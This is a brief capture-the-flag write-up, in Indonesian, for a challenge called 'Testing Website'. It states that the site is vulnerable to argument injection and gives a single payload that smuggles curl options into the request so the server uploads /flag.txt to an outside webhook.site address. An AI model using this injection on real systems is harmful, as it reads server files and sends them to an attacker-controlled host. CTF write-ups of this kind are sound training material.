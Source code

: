 # Testing Website

Description:
```
Testing website doang, jalan apa enggak hehe

Link: xxx
Author: daffainfo
```

# Cara Solve

Website rentan terhadap argument injection

```
-F password=@/flag.txt https://webhook.site/af5bc610-1d0b-4df3-9361-e130a85916f5
```